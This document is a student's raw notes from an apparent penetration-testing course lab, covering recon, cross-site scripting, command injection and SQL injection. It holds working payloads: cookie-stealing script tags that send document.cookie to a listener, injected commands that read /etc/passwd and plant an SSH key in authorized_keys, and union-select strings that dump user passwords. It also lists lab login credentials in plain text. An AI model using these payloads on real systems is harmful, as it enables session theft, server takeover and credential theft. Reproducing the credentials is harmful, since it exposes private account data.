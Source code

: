 ### LOGIN INFO ###
Please log into Lins-ops
find IPs on vta.cybbh.space

class info: 10.50.46.45/classinfo.html
Keep this output in your notes, password for pivot/-jump box and CTFd, 10.50 is your Jump box for challenges

CTFd: 10.50.20.250:8000

ssh into my workstation -> ssh -X student@10.50.39.223
password: password 

JUMP_BOX!!!
username: MAKI-502-B
password: d07PevVUniUxBNR
Stack Number: 16
lin.internet: 10.50.49.22
linux-ops ip address: 10.50.39.223

VTA_creds: https://vta.cybbh.space/horizon/project/
Username: mahlon.k.kirwa80
password: regular linux password
Domain: ipa

Jump box:
cctc.cybb

Link slides and what not - https://sec.cybbh.io/public/security/latest/index.html

Instances - https://vta.cybbh.space/horizon/project/instances/

## SECURITY MODULES ##

LESSONS:
1. Penetration testing
2. Reconnaissance
3. Exploit Research
4. Web Exploitation - Day 1
5. Web Exploitation - Day 2
6. Reverse Engineering
7. Exploit Development Testing
8. Post Exploitation
9. Windows Exploitation
10. Linux Exploitation

### PENETRATION TESTING ###

Phases:
1. Phase 1 - Mission definition
2. Phase 2 - Recon
3. Phase 3 - Footprinting
4. Phase 4 - Exploitation and Initial Access
5. Phase 5 - Post Exploitation
6. Phase 6 - Document Mission

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done # Does the first 1000 scans. For the ping sweep... 

Always run the regular scans like above before you try banner grabbing (a technique used to gain information about a computer on a network and the services running on its open ports.)

storage nmap scripts -> ls /usr/share/nmap/scripts/
Popular scripts: ftp-anon.nse, http-enum.nse, smb-os-discovery.nse

How to get information about a certain script -> proxychains nmap [target_ip_address]-Pn -p [target_port] --script-help [target_script]
                                                             nmap ip 192.168.28.97-100, 100,105,111,120 -pm


## Web Exploits CSS ##

proxychains nmap 10.50.45.162 -Pn --script http-enum -p 80

nc -kvnl 8000

n- translates dns

 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


ping 8.8.8.8 ;cat /etc/passwd -> Lets you run and see if 

;cat ~/.ssh/id_rsa.pub

;mkdir /var/www/.ssh

;whoami

;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR" >> /var/www/.ssh/authorized_keys

ssh www-data@10.50.45.162

malicious file upload.... 


10.50.45.62




http://10.100.28.40/Contract_bids.html
http://10.100.28.40/net_test/industry_check.php
http://10.100.28.40/


 <script>document.location="http://10.50.49.22:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


<script>document.location="http://10.50.39.223:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
192.168.65.20

## SQL ##

MariaDB > select carid, name, cost from car;
MariaDB > select carid, name, cost from session.car where carid=4; 
MariaDB > select database(); # shows you where you are with your current database. 
MariaDB > select table_schema, table_name, column_name from information_schema.columns;

table_schema: Refers to the name of the schema (often used interchangeably with "database" in some DBMS) to which the table belongs.
The information_schema.columns table is a meta-table that contains information about all columns in all tables in the database system.

MariaDB > select table_name from information_schema.columns where table_schema=session;
MariaDB > select @@version;
MariaDB > select load_file("/etc/passwd);
MariaDB > select carid, name, cost from session.car union select name, pass, id from session.user;

SELECT * FROM movies;

SELECT * FROM movies where year<2000 or year>2010; # Finding movies not released in the years between 2000 and 2010.
SELECT * FROM movies where id>=1 and id<=5; # Finding the first 5 pixar movies. 
SELECT * FROM movies WHERE Title LIKE '%toy story%'; # Find all the Toy Story movies
SELECT * FROM movies WHERE Director='John Lasseter'; # Find all movies directed by John Lasseter
SELECT * FROM movies WHERE Title like 'WALL-%'; # Find all the WALL-* movies
SELECT DISTINCT Director FROM movies ORDER BY Director ASC; # List all directors of Pixar movies (alphabetically), without duplicates 
SELECT * FROM movies ORDER BY year DESC limit 4; # List the last four Pixar movies released (ordered from most recent to least) 
SELECT * FROM movies ORDER BY title ASC limit 5; # List the first five Pixar movies sorted alphabetically


WHERE Price BETWEEN 10 AND 20;

USE session;
SELECT id FROM user WHERE name='tom' OR 1=1;

steps sql injection
1. in both the password and username field, enter: tom' or 1='1
2. Inspect html and change form from post to get 
3. login and see the information

You will get all selects except for one challenge. 

step 1 -> http://10.50.46.45/uniondemo.php?Selection=2 or% 1=1 -> Keep increasing the value on the selection until an output is derived
step 2 -> http://10.50.46.45/uniondemo.php?Selection=2 union select 1,2,3 union select, find out if there values are ordered

We now know they're not inorder and that 2 is vulnerable let's look at the table schema 
step 3 -> http://10.50.46.45/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

union demo - http://10.50.46.45/Union.html

ford' or 1=1; #   ---> Try this gives this select name, type, cost, color, year from car where name='ford\' or 1=1; #' 
select name, type, cost, color, year from car where name='audi\' or 1=\'1'

0. ford' or 1='1; this didn't work why???
1. ford' or 1=1; # after this we try audi next
2. Audi' or 1=1; #' ----> gives this select name, type, cost, color, year from car where name='Audi' or 1=1; # ' -----> SUCCESS!!!
3. Now we need union select 
4. Audi' union select 1,2,3,4; # -----> doesn't work.. 
5. Audi' union select 1,2,3,4,5; # ----> works.. looks like I added 
6. Audi' UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #      ----> GOLDEN STATEMENT ALLOWS US TO KNOW WHAT TO WRITE FOR THAT SITUATION. Helps us to write a valid query for content
7. Audi' Union select id,null,name,pass,null from session.user; #
query -----> select name, type, cost, color, year from car where name='Audi' Union select id,2,name,pass,null from session.user; #'